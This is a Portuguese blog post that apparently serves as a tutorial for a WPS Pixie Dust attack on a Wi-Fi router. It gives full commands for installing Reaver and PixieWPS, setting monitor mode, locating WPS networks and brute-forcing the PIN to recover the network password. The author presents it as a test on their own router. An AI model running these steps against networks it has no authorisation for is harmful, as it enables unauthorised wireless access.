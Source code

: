 ```yaml
---
layout: post
title:  "Explorando a vulnerabilidade do WPS"
date:   2019-03-11 22:50:00 -0300
---
```




Neste post, vou mostrar como realizar um teste de segurança em redes sem fio, que possuam o WPS ativo. Alguns roteadores possuem uma vulnerabilidade que permite realizar um ataque de brute force para encontrar o PIN WPS, uma vez identificado o PIN, é feita a autenticação, e então, temos acesso a senha da rede wireless. Para realizar o teste, utilizei meu roteador e criei uma rede apenas para este fim.

Para realizar esse teste, utilizei:

[Linux Mint](https://www.linuxmint.com/)

[PixieWPS](https://github.com/wiire/pixiewps)

[Reaver-wps-fork-t6x](https://github.com/t6x/reaver-wps-fork-t6x)

Para começar,é necessário instalar as dependências para o Reaver e PixieWPS.

Instale os seguintes pacotes:

	# apt-get -y install build-essential libpcap-dev aircrack-ng

Depois de instalados os pacotes acima, pode instalar o Reaver e PixieWPS.

### PixieWPS  
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/wiire/pixiewps

ou

	$ wget https://github.com/wiire/pixiewps/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd pixiewps*/
	$ cd src/
	$ make
	$ sudo make install

### Reaver
Para fazer download do projeto, escolha utilizar um dos comandos abaixo:

	$ git clone https://github.com/t6x/reaver-wps-fork-t6x

ou

	$ wget https://github.com/t6x/reaver-wps-fork-t6x/archive/master.zip && unzip master.zip

Feito o download, será preciso executar estes comandos:

	$ cd reaver-wps-fork-t6x*/
	$ cd src/
	$ ./configure
	$ make
	$ sudo make install

Pronto!

---

### Configurações e execução
Agora Vamos alterar o modo de funcionamento da interface wireless.

É necessário identificar a interface wireless, para isso, basta usar o comando:

	$ iwconfig

<figure>
  <img src="{{site.url}}/assets/images/1.png" alt=" "/>
  <figcaption style="display: block; text-align: center;">Neste caso, temos a wlp6s0 como interface wireless.</figcaption>
</figure>

Após identificar a interface wireless, altere o modo de funcionamento para o modo “Monitor”, para isso utilize o comando:

	# airmon-ng start wlp6s0

<figure>
  <img src="{{site.url}}/assets/images/2.png" alt=" "/>
</figure>

Na saída do comando acima, está descrito entre parenteses a informação de que foi habilitado o modo monitor na interface virtual “mon0”. Além disso, foram encontrados 5 processos que podem causar algum bug ao utilizar a interface em modo monitor, para garantir que não terá nenhum problema, esses processos devem ser encerrados, para isso basta usar o comando kill, seguido dos PID’s dos processos listados.

Neste caso:

	# kill 897 898 958 1192 1273

Agora desabilite a interface wireless “wlp6s0”, para que não haja problemas ao identificar a rede alvo, com o comando:

	# ifconfig wlp6s0 down

<figure>
  <img src="{{site.url}}/assets/images/3.png" alt=" "/>
</figure>

Após ter encerrado os processos que podem causar problemas no funcionamento do airmon-ng e desabilitar a interface wireless que não será utilizada, vamos ao próximo passo, localizar a rede alvo. Para isso, utilize o comando “wash” que lista somente redes com WPS ativo.

	# wash -i mon0

<figure>
  <img src="{{site.url}}/assets/images/4.png" alt=" "/>
</figure>

Identificada a rede alvo, passe os parâmetros necessários para executar o Reaver e PixieWPS, com o seguinte comando:

	# reaver -i mon0 -b E8:CC:18:BE:01:AC -c 6 -vvv -K 1

<figure>
  <img src="{{site.url}}/assets/images/5.png" alt=" "/>
</figure>

Os parâmetros passados foram: 
- -i {interface wireless} 
- -b {MAC Adress alvo} 
- -c {Canal de trasmissão}

 Os dois últimos, são “-vvv” para ativar o modo verbose, para exibir todas as mensagens de cada etapa do processo e -K 1 que faz com que o Reaver passe os dados referentes ao PKE, PKR, e-hash1 e e-hash2 automaticamente, o pixieWPS fará um brute force “off-line”, evitando que o roteador alvo bloqueie a conexão por meio do WPS após algumas tentativas, dessa forma serão testados todos os PIN’s. Por rodar o brute force com os dados coletados pelo Reaver, não há necessidade de a cada tentativa fazer a comunicação com o alvo, reduzindo drasticamente o tempo necessário para que o PIN seja encontrado, o tempo necessário em média, não supera os 30 minutos, porém a depender da capacidade de processamento do seu computador, esse tempo pode variar.

Vale lembrar que não são todos os roteadores que possuem essa vulnerabilidade, [neste link](https://docs.google.com/spreadsheets/d/1tSlbqVQ59kGn8hgmwcPTHUECQ3o9YhXR91A_p7Nnj5Y/edit?pref=2&pli=1#gid=2048815923), há uma lista de dispositivos vulneráveis.

P.S.: Realizei esse teste em um roteador de minha propriedade, configurado para este fim. Não utilizem este conhecimento para testar em redes nas quais não tenham autorização para tal.